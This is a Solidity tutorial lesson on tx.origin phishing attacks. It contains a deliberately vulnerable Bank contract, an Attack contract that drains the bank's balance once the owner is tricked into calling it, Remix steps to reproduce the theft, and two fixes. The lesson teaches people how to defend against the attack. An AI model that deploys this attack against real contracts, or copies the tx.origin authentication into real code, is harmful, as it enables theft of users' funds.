


# WTF Solidity S12. tx.origin Phishing Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the `tx.origin` phishing attack and prevention methods in smart contracts.

## `tx.origin` Phishing Attack

When I was in middle school, I loved playing games. However, the game developers implemented an anti-addiction system that only allowed players who were over 18 years old, as verified by their ID card number, to play without restrictions. So, what did I do? I used my parent's ID card number to bypass the system and successfully circumvented the anti-addiction measures. This example is similar to the `tx.origin` phishing attack.

In Solidity, `tx.origin` is used to obtain the original address that initiated the transaction. It is similar to `msg.sender`. Let's differentiate between them with an example.

If User A calls Contract B, and then Contract B calls Contract C, from the perspective of Contract C, `msg.sender` is Contract B, and `tx.origin` is User A. If you are not familiar with the `call` mechanism, you can read [WTF Solidity 22: Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md).



Therefore, if a bank contract uses `tx.origin` for identity authentication, a hacker can deploy an attack contract and then induce the owner of the bank contract to call it. Even if `msg.sender` is the address of the attack contract, `tx.origin` will be the address of the bank contract owner, allowing the transfer to succeed.

## Vulnerable Contract Example

### Bank Contract

Let's take a look at the bank contract. It is very simple and includes an `owner` state variable to record the contract owner. It has a constructor and a `public` function:

- Constructor: Assigns a value to the `owner` variable when the contract is created.
- `transfer()`: This function takes two parameters, `_to` and `_amount`. It first checks `tx.origin == owner` and then transfers `_amount` ETH to `_to`. **Note: This function is vulnerable to phishing attacks!**

```solidity
contract Bank {
    address public owner; // Records the owner of the contract

    // Assigns the value to the owner variable when the contract is created
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Check the message origin !!! There may be phishing risks if the owner is induced to call this function!
        require(tx.origin == owner, "Not owner");
        // Transfer ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Attack Contract

Next is the attack contract, which has a simple attack logic. It constructs an `attack()` function to perform phishing and transfer the balance of the bank contract owner to the hacker. It has two state variables, `hacker` and `bank`, to record the hacker's address and the address of the bank contract to be attacked.

It includes `2` functions:

- Constructor: Initializes the `bank` contract address.
- `attack()`: The attack function that requires the `owner` address of the bank contract to call. When the `owner` calls the attack contract, the attack contract calls the `transfer()` function of the bank contract. After confirming `tx.origin == owner`, it transfers the entire balance from the bank contract to the hacker's address.

```solidity
contract Attack {
    // Beneficiary address
    address payable public hacker;
    // Bank contract address
    Bank bank;

    constructor(Bank _bank) {
        // Forces the conversion of the address type _bank to the Bank type
        bank = Bank(_bank);
        // Assigns the beneficiary address to the deployer's address
        hacker = payable(msg.sender);
    }

    function attack() public {
        // Induces the owner of the Bank contract to call, transferring all the balance to the hacker's address
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduce on `Remix`

**1.** Set the `value` to 10ETH, then deploy the `Bank` contract, and the owner address `owner` is initialized as the deployed contract address.


**2.** Switch to another wallet as the hacker wallet, fill in the address of the bank contract to be attacked, and then deploy the `Attack` contract. The hacker address `hacker` is initialized as the deployed contract address.


**3.** Switch back to the `owner` address. At this point, we were induced to call the `attack()` function of the `Attack` contract. As a result, the balance of the `Bank` contract is emptied, and the hacker's address gains 10ETH.



## Prevention Methods

Currently, there are two main methods to prevent potential `tx.origin` phishing attacks.

### 1. Use `msg.sender` instead of `tx.origin`

`msg.sender` can obtain the address of the direct caller of the current contract. By verifying `msg.sender`, the entire calling process can be protected from external attack contracts.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verify `tx.origin == msg.sender`

If you must use `tx.origin`, you can also verify that `tx.origin` is equal to `msg.sender`. This can prevent external contract calls from interfering with the current contract. However, the downside is that other contracts will not be able to call this function.

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## Summary

In this lesson, we discussed the `tx.origin` phishing attack in smart contracts. There are two methods to prevent it: using `msg.sender` instead of `tx.origin`, or checking `tx.origin == msg.sender`. It is recommended to use the first method, as the latter will reject all calls from other contracts.
